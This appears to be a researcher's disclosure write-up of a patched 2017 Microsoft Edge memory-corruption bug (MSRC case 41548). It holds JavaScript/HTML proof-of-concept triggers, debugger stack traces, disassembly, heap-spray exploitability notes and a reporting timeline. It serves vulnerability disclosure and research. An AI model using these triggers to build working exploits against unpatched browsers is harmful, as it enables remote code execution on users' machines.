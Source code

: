 # Msrc Case 41548 - Microsoft Edge: multiple race conditions leading to rce.

# Trigger

```javascript
var a1 = document.createElementNS("http://www.w3.org/2000/svg", "mpath");                   (1)                        
a1.style.setProperty("content", "var(--c)");                                                (2)                        
var a2 = a1.cloneNode();                                                                    (3)
```

1 -> has to be an mpath element any other will not crash the content provider.<br>
2 -> can be any variable, but if not set then the content provider will not crash.<br>
3 -> leads to use of uninitialized heap memory.<br><br>

minimal stack trace:<br>

```c
partial stack trace:

 # Child-SP          RetAddr           Call Site
00 00000050`e6bf6208 00007fff`7bccb940 msvcrt!memcpy+0x2e6
01 00000050`e6bf6210 00007fff`51b5a895 msvcrt!memcpy_s+0x60
02 00000050`e6bf6250 00007fff`51f5ea51 edgehtml!CStr::Set+0xa5
03 00000050`e6bf6290 00007fff`51ebac70 edgehtml!CGeneratedContentExpression::Copy+0x35
04 00000050`e6bf62d0 00007fff`51ca2b59 edgehtml!Tree::SpecifiedStyle::CopyPropertiesFrom+0x2180fc
05 00000050`e6bf6340 00007fff`51aa0c3e edgehtml!Tree::SpecifiedStyle::Clone+0x49
06 00000050`e6bf6370 00007fff`51be1872 edgehtml!CAttrValue::InitVariant+0x19e
07 00000050`e6bf63b0 00007fff`51be16d1 edgehtml!CAttrValue::Copy+0x66
08 00000050`e6bf6400 00007fff`51be1562 edgehtml!CAttrArray::Clone+0xf1
09 00000050`e6bf6480 00007fff`517df15e edgehtml!CElement::CloneAttributes+0x42
0a 00000050`e6bf64b0 00007fff`51c81ffe edgehtml!CSVGElement::CloneAttributes+0x1e
0b 00000050`e6bf6530 00007fff`51c62160 edgehtml!CElement::Clone+0x1de
0c 00000050`e6bf66f0 00007fff`51a87787 edgehtml!Tree::TreeWriter::CloneNode+0x80
0d 00000050`e6bf6730 00007fff`519cd476 edgehtml!CElement::CloneNodeHelper+0xa7
0e 00000050`e6bf6760 00007fff`519cd3ed edgehtml!CDOMNode::Var_cloneNode+0x5a
0f 00000050`e6bf6790 00007fff`51d11b45 edgehtml!CFastDOM::CNode::Trampoline_cloneNode+0x91
10 00000050`e6bf67f0 00007fff`511ee581 edgehtml!CFastDOM::CNode::Profiler_cloneNode+0x25
11 00000050`e6bf6820 00007fff`51226df6 chakra!Js::JavascriptExternalFunction::ExternalFunctionThunk+0x1d1
12 00000050`e6bf68f0 00007fff`510f942c chakra!amd64_CallFunction+0x86
13 00000050`e6bf6940 00007fff`510fc368 chakra!Js::JavascriptFunction::CallFunction<1>+0x9c
14 00000050`e6bf69a0 00007fff`51102c99 chakra!Js::InterpreterStackFrame::OP_CallI<Js::OpLayoutDynamicProfile<Js::OpLayoutT_CallI<Js::LayoutSizePolicy<1> > > >+0xe8
15 00000050`e6bf69f0 00007fff`5110107c chakra!Js::InterpreterStackFrame::ProcessUnprofiledMediumLayoutPrefix+0x159
16 00000050`e6bf6a50 00007fff`51100f08 chakra!Js::InterpreterStackFrame::ProcessUnprofiled+0x8c
```

the crash was as follows:<br><br>

![](pics/curroption,,.PNG)

<br><br>
where the address of rax was taken from rcx who was pointing to heap memory. i have noticed that this is indeed the microsoftedgecp heap memory becouse i could sometimes spot left-overs of the page that redirected to that page. seeking to find exploitability assessment, i tried to see if this data is controllable, after some hours of debugging the application i could controll the register value (by heap spray) who is later used to determine the length of a string to be allocated by the runtime. for whoever is looking to see how one can exploit that oob r/w for rce you can look at this great <html><a href="https://googleprojectzero.blogspot.co.il/2014/07/pwn4fun-spring-2014-safari-part-i_24.html">blogpost</a></html> from Ian beer.<br><br>

from my note's to msrc:<br><br>
"i think that the problem is that while the document still do not contain the new allocated object,<br>
we can still cast properties. that means that there is likly a problem with the constructor,<br>
who do not zero out non-existing fields, calling a clone on this object will lead to use of uninitialized variables."<br>

i have also found different code paths to the same issue that i have identified as a race condition leading to use-of-uninitialized memory (maybe this sample will help):<br>

```html
<script>
function trigger() {

// select the canvas object.
var a = canvas;

// point the element to the document itself (that is not yet contained at the page at the given time).
// so its actually free.
var uafObject = a.parentNode;

// create a new object from the freed object.
// that still points to the process heap (to the unloaded document).
var heapOverFlow = document.importNode(uafObject,true);

}
</script>
<body onload=trigger()>
<title id="junk" style=" content: var(--cssvard); grid-gap: none; border-left-color: ; orientation: auto" class="class7" loop="1" crossorigin="crossorigin" formmethod="post" cols="0" controls="controls"></title>
<canvas id="canvas" name="" hidden="hidden" dir="ltr" name="" width="0" low="1" placeholder="" onhashchange="" ontransitionend="" frame="BOX">
<font id="uafObject" title="" size="4" tabindex="4" dir="auto" title="W" usemap="" disposition="attachment" pluginspage="" preload="none" accept="image/*"></font>
</canvas>
</body>
```

```c
 # Child-SP          RetAddr           Call Site
00 0000001f`cbcfacb8 00007ffe`cec0b940 msvcrt!memcpy+0x2fa
01 0000001f`cbcfacc0 00007ffe`a56ce525 msvcrt!memcpy_s+0x60
02 0000001f`cbcfad00 00007ffe`a5b3e8b1 edgehtml!CStr::Set+0xa5
03 0000001f`cbcfad40 00007ffe`a5a9ac92 edgehtml!CGeneratedContentExpression::Copy+0x35
04 0000001f`cbcfad80 00007ffe`a5881d59 edgehtml!Tree::SpecifiedStyle::CopyPropertiesFrom+0x218f1e
05 0000001f`cbcfadf0 00007ffe`a567faae edgehtml!Tree::SpecifiedStyle::Clone+0x49
06 0000001f`cbcfae20 00007ffe`a57c01a2 edgehtml!CAttrValue::InitVariant+0x19e
07 0000001f`cbcfae60 00007ffe`a57c0001 edgehtml!CAttrValue::Copy+0x66
08 0000001f`cbcfaeb0 00007ffe`a57bfe92 edgehtml!CAttrArray::Clone+0xf1
09 0000001f`cbcfaf30 00007ffe`a5bc0bda edgehtml!CElement::CloneAttributes+0x42                            <-- CElement this time ..
0a 0000001f`cbcfaf60 00007ffe`a58610be edgehtml!CCommentElement::CloneAttributes+0x1a
0b 0000001f`cbcfaf90 00007ffe`a5840a00 edgehtml!CElement::Clone+0x1de
0c 0000001f`cbcfb150 00007ffe`a58408d8 edgehtml!Tree::TreeWriter::CloneNode+0x80
0d 0000001f`cbcfb190 00007ffe`a5667a5c edgehtml!Tree::TreeWriter::CloneNodeInternal+0xa4
0e 0000001f`cbcfb1e0 00007ffe`a5667be5 edgehtml!Tree::TreeWriter::CloneTreeInternal+0x134
0f 0000001f`cbcfb220 00007ffe`a5666518 edgehtml!Tree::TreeWriter::CloneTree+0x8d
10 0000001f`cbcfb2a0 00007ffe`a5bcf929 edgehtml!CElement::CloneNodeHelper+0x58
11 0000001f`cbcfb2d0 00007ffe`a5ca90d8 edgehtml!CDocument::importNode+0x89                                   <-- Our importNode.
12 0000001f`cbcfb320 00007ffe`a58f8df5 edgehtml!CFastDOM::CDocument::Trampoline_importNode+0xcc              (it's not a common api ..)
13 0000001f`cbcfb3e0 00007ffe`ba7ab491 edgehtml!CFastDOM::CDocument::Profiler_importNode+0x25
```

here are some graphics for the reader:<br><br>

![](pics/register.PNG)<br><br>


![](pics/aaa6.PNG)

# Fix
afaik this was patched in december pt.<br><br>

you can see that the CDocument is first initialized and only then gets cloned. by CElement::Clone<br> 
(see the above stack for a referance).

```assembly
0:019> kn
 # Child-SP          RetAddr           Call Site
00 00000009`8abf9040 00007ffe`a6a770a2 edgehtml!CAttrArray::Clone+0xf1
01 00000009`8abf90c0 00007ffe`a6ab058e edgehtml!CElement::CloneAttributes+0x42
02 00000009`8abf90f0 00007ffe`a6987f00 edgehtml!CElement::Clone+0x1de
03 00000009`8abf92b0 00007ffe`a6986ea0 edgehtml!Tree::TreeWriter::CloneNode+0x80
04 00000009`8abf92f0 00007ffe`a65f949a edgehtml!Tree::TreeWriter::CloneNodeInternal+0xa4
05 00000009`8abf9340 00007ffe`a65f9565 edgehtml!Tree::TreeWriter::CloneTreeInternal+0x1f2
06 00000009`8abf9380 00007ffe`a65f6e67 edgehtml!Tree::TreeWriter::CloneTree+0x8d
07 00000009`8abf9400 00007ffe`a6e1f159 edgehtml!CDocument::CloneNodeHelper+0x77
08 00000009`8abf9460 00007ffe`a6ef84b0 edgehtml!CDocument::importNode+0x89
09 00000009`8abf94b0 00007ffe`a6b48fe5 edgehtml!CFastDOM::CDocument::Trampoline_importNode+0xcc
0a 00000009`8abf9570 00007ffe`a60199f1 edgehtml!CFastDOM::CDocument::Profiler_importNode+0x25

0:019> u edgehtml!Tree::TreeWriter::CloneTreeInternal+0x1f2
edgehtml!Tree::TreeWriter::CloneTreeInternal+0x1f2:
00007ffe`a65f949a 488b5c2440      mov     rbx,qword ptr [rsp+40h]
00007ffe`a65f949f 488bd5          mov     rdx,rbp
00007ffe`a65f94a2 488bcb          mov     rcx,rbx
00007ffe`a65f94a5 e886493100      call    edgehtml!Tree::TreeWriter::AppendChildInternalConnection (00007ffe`a690de30)
00007ffe`a65f94aa 488bcd          mov     rcx,rbp
00007ffe`a65f94ad e82e193e00      call    edgehtml!Tree::ANode::TreeOwner (00007ffe`a69dade0)
00007ffe`a65f94b2 488bd0          mov     rdx,rax
00007ffe`a65f94b5 488bcb          mov     rcx,rbx
0:019> u edgehtml!Tree::TreeWriter::AppendChildInternalConnection
edgehtml!Tree::TreeWriter::AppendChildInternalConnection:
00007ffe`a690de30 4883ec28        sub     rsp,28h
00007ffe`a690de34 e877201800      call    edgehtml!Tree::ANode::PreviousSibling (00007ffe`a6a8feb0)
00007ffe`a690de39 4885c0          test    rax,rax
00007ffe`a690de3c 757b            jne     edgehtml!Tree::TreeWriter::AppendChildInternalConnection+0x89 (00007ffe`a690deb9)
00007ffe`a690de3e 48394140        cmp     qword ptr [rcx+40h],rax
00007ffe`a690de42 757b            jne     edgehtml!Tree::TreeWriter::AppendChildInternalConnection+0x8f (00007ffe`a690debf)
00007ffe`a690de44 e8c7c60c00      call    edgehtml!Tree::ANode::Parent (00007ffe`a69da510)
00007ffe`a690de49 4885c0          test    rax,rax
0:019> u edgehtml!Tree::ANode::Parent
edgehtml!Tree::ANode::Parent:
00007ffe`a69da510 8b4160          mov     eax,dword ptr [rcx+60h]
00007ffe`a69da513 2501000008      and     eax,8000001h
00007ffe`a69da518 3d01000008      cmp     eax,8000001h
00007ffe`a69da51d 7405            je      edgehtml!Tree::ANode::Parent+0x14 (00007ffe`a69da524)
00007ffe`a69da51f 488b4130        mov     rax,qword ptr [rcx+30h]
00007ffe`a69da523 c3              ret
00007ffe`a69da524 33c0            xor     eax,eax
00007ffe`a69da526 c3              ret



```

# TimeLine:

  * 17-10-2017 - vulnerability found
  * 17-10-2017 - vulnerability reported to vendor got initial triage (18).
  * 18-10-2017 - 15-11-2017 - desperately tried to send additional details to msrc.
  * 26-10-2017 - submitted to a third side party bounty program.
  * 15-11-2017 - responded with acknowledgment of exploitability and a fix pursue by msrc (after contacting @krzywix).
  * 21-11-2017 - recived a decent bounty offer (FROM THE THIRD PARTY) - that i had to decline.
  * 12-12-2017 - vulnerability fixed, got an email that it will be publicly available next month.
  


